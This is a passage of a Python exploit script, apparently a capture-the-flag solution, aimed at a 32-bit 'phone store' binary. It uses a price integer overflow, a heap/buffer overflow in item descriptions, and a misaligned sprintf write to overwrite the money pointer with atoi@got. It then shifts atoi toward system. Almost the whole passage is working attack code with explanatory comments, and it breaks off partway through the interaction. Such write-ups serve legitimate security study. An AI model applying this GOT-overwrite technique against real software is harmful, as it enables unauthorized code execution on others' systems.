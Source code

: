 ```python
    readtil('choice?')
    sendln('c')
    
    # second item
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln(''+'9'*0xf)  # this will make the price of this item 0x7fffffff, ready to be abused later
    readtil('description?')
    sendln('A'+p(0x804b038-1)+'A'*(0x4f-5)) # 0x804b038 = atoi@got 
    
    # allocate the rest of the items
    for i in range(13):
        readtil('choice?')
        sendln('a')     # sell a phone
        readtil('name?')
        sendln('A'*0x1f)
        readtil('OS?')
        sendln('4')
        readtil('price?')
        sendln('-'+'9'*0xe)
        readtil('description?')
        sendln('B'*0x4f)    
    
    # overflow
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*(0x4f-4)+p(0x8049b64))

    readtil('choice?')
    sendln('c') # generate store menu & overflow into 2nd item
    
    readtil('choice?')
    sendln('d')
    readtil('choice?')
    sendln('b')
    print readtil('buy?')
    sendln('2')
    readtil('choice?')
    sendln('b') # get wholesale price
    readtil('buy?')
    sendln('134525517') # is 0x804b280-51, so that the sprintf is aligned and will overwrite the money pointer with atoi@got or snprintf@got
    readtil('choice?')
    sendln('a')
    readtil('buy?')
    sendln('14921728')  # this is the offset of atoi to system on *my* box, 58288*256 (the *256 is to compensate for the crooked ptr)
    readtil('choice?')
    sendln('a')
    readtil('buy?')
```